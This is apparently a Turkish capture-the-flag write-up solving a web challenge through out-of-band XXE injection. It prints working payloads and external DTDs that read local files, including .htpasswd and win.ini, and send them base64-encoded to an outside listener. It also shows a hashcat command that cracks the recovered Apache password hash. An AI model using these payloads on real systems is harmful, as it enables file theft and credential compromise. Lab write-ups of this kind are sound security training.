 ### At (Web 300)

![soru](soru.png)

Soruda bize sadece bir IP adresi veriliyor. Bu IP adresini ziyaret ettiğimde bir form ile karşılaştım.


![adim1](adim_1.png)


Formu doldurup gönderdiğim. Sonra bu isteği Burp Suite'in Repeater aracı ile açıp isteği tekrarladım ve bunu yaptığımda **Sorry, this email is already registered!** mesajı ile karşılaştıım. Kısaca farklı emailler ile isteği tekrarladım ancak mesaj hiç değişmedi. Sonra kısaca her parametreye SQL Injection denemesi yaptım ancak bu da hiçbir sonuç vermedi. İsteğin XML olarak gitmesi akıllara direk XXE Injection(XML External Entity Injection) açığını getirmeli. XML parserlarının bir özelliğinden dolayı oluşan bu güvenlik açığı birçok büyük firmada daha önce bulunmuş ve rapor edenlere binlerce dolar kazandırmıştır. Örnek olarak Google ve Facebookta bulunmuş XXE açıklarının İngilizce write-up'larını okuyabilirsiniz.

Google XXE (Ödül $10,000): https://blog.detectify.com/2014/04/11/how-we-got-read-access-on-googles-production-servers/  
Facebook XXE (Ödül $30,000): https://www.ubercomp.com/posts/2014-01-16_facebook_remote_code_execution


![adim2](adim_2.png)   


Ben XXE açığını kontrol etmek için şu listedeki payloadları kullanıyorum: https://gist.github.com/staaldraad/01415b990939494879b4 

Bu XXE payload listesinden biraz deneme yanılma yoluyla çalışan bir payload buldum:


![adim7](adim_7.png)   


XXE başlı başına bir konu olduğu için bu yazıda XXE'yi açıklamayacağım. Ancak kullandığım Out-of-Band XXE payloadunun ne yaptığını kısaca anlatayım:

**XXE Payload (HTTP isteğiyle birlikte gönderilecek)**
```
1: <?xml version="1.0" encoding="UTF-8"?>
2: <!DOCTYPE r [
3: <!ELEMENT r ANY >
4: <!ENTITY % sp SYSTEM "http://xx.xx.xx.xx:8000/ex.dtd">
5: %sp;
6: %param1;
7: %exfil;
8: ]>
```

1) Dördüncü satırda `sp` adında bir XML Entity tanımı yapılıyor. Bu Entity başka bir IP adresindeki DTD dosyasına link ediyor. DTD dosyası dediğimiz bildiğimiz XML dosyası. 

2) Beşinci satırda bu tanımı yapılan Entity çağırılıyor. Tıpkı fonksiyon gibi düşünün. Tanımını yaptığınız fonksiyonu çağırmazsanız o fonksiyon hiçbir işe yaramaz.

3) XML parser verilen IP adresindeki DTD dosyasını yükleyip parse ediyor.

4) Altıncı ve 7. satırlarda, yüklenen DTD içinde tanımlanmış olan `param1` ve `exfil` Entityleri çağırılıyorlar. Fonksiyon benzetmesinden devam edersek, DTD dosyasında tanımlı fonksiyonlar çağırılıyor diyebiliriz. Bu sayede XML parser DTD'yi import ettiğinde `param1` ve `exfil` Entitylerine erişebilecek.



**http://xx.xx.xx.xx:8000/ex.dtd Dosyası (Sistemde zafiyet bulunan XML parser bu dosyayı çağırıyor)**:

```
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=C:/windows/win.ini">
<!ENTITY % param1 "<!ENTITY &#x25; exfil SYSTEM 'http://x.x.x.x:443/?%data;'>">   
```

1) Birinci satırda `data` Entity'si `c:/windows/win.ini` dosyasına link ediyor. Yani `data` fonksiyonu çağırıldığında `c:/windows/win.ini` dosyasının base64 encode edilmiş içeriğini dönecek gibi düşünebilirsiniz.

2) İkinci satırda `param1` Entity'si `exfil` adında başka bir Entity tanımlıyor ve bu `exfil` Entity'si `http://x.x.x.x:443/` adresine `data` Entity'sinin içeriğini(Base64 encode edilmiş `c:/windows/win.ini` dosyası) gönderiyor.
![teambios](team-bios.jpg)  


Bu aşamadan sonra `c:/windows/win.ini` dosyasını okumak için aşağıdaki şekilde istek gönderdim:

![adim9](adim_9.png) 



**ex.dtd'yi barındıran sunucum:**

![adim8](adim_8.png) 


**XXE zafiyeti bulunan sunucu, Burp'ün sunucusuna `c:/windows/win.ini` dosyasını Base64 encode edip gönderiyor:**

![adim9](adim_10.png) 



Bu aşamadan sonra sistemde bütün dosyaları okuyabiliyordum. Ancak bu aşamada takıldım çünkü flag'in nerde saklandığını bulamadım. Ta ki sitenin içinde biraz gezip `js/` klasörünün altındaki `files.txt` dosyasını bulana kadar.  
![adim6](adim_6.png)


Burada bize flag'in `C:\Windows` dizininde olduğunu ve flagin isminin `flag_\d{4}[a-zA-Z]{4}\.txt` Regular Expression'ınına uyucağını söylüyordu. Bütün olasılıkları Brute Force mantıklı değildi. Biraz daha araştırma yapınca sunucunun `/flag` altdizinin HTTP Authentication kullandığını gördüm.

![adim4](adim_4.png)


`/flag` dizinine girebilmek için HTTP Authentication kullanıcı adı ve parolasına ihtiyaç vardı. HTTP Authentication parolaları Apache sunucularda `.htpasswd` dosyasında saklanır. XXE zafiyetini kullanarak bu dosyayı aynı yukarıda `win.ini` dosyasını okuduğumuz gibi okuyabiliriz.

**ex.dtd dosyasının içeriğini aşağıdaki gibi değiştirdim .htaccess'i okuyabilmek için:**
```
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=C:/xampp/htdocs/.htpasswd">
<!ENTITY % param1 "<!ENTITY &#x25; exfil SYSTEM 'http://qmgtfsyjox8fdh4q8ug2io8kvb12pr.burpcollaborator.net/?%data;'>">
``` 

`.htaccess` dosyasının içeriği:
![adim11](adim_11.png)

HTTP Authentication için kullanıcı adı: `stalker` ve hashlenmiş parola: `$apr1$izrgXKZ1$0fVgd1MIioC14JG6VYwTw/`. Bu parolanın hangi hash fonksiyonu ile hashlendiğini araştırdım ve Apache MD5 diye bir format buldum. Bu formatı cracklemek için Hashcat'i hash türünü 1600 olarak seçerek kullandım. Tabii  dictionary olarak CTFlerin olmazsa olmazı rockyou.txt'yi kullandım.

```
hashcat -m 1600 hash.txt /usr/share/wordlists/rockyou.txt --force

```  

**Sonuç:**

![adim12](adim_12.png)

Kullanıcı adını `stalker` ve parolayı `gangstagangsta` olarak girdiğimizde yine bir sürprizle karşılaştım.

![adim13](adim_13.png)

Bize flag yerine ismi `flag_3289erpd.txt.jpg` olan bir resim dönülüyor. Biraz kafamı kaşıdıktan sonra `C:/Windows/` dizini altındaki `flag_\d{4}[a-zA-Z]{4}\.txt` formatında bir flag olduğu aklıma geldi. Artık flag'in ismi de elimizde olduğuna göre hemen XXE zafiyetini kullanarak okuyabiliriz flag dosyasını.

**ex.dtd dosyasının içeriğini aşağıdaki gibi değiştirdim C:/windows/flag_3289erpd.txt'yi okuyabilmek için:**
```
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=C:/windows/flag_3289erpd.txt">
<!ENTITY % param1 "<!ENTITY &#x25; exfil SYSTEM 'http://qmgtfsyjox8fdh4q8ug2io8kvb12pr.burpcollaborator.net/?%data;'>">
``` 

![flag](flag.png)



Bence soru çok eğlenceliydi. Hazırlayan kişinin ellerine sağlık.

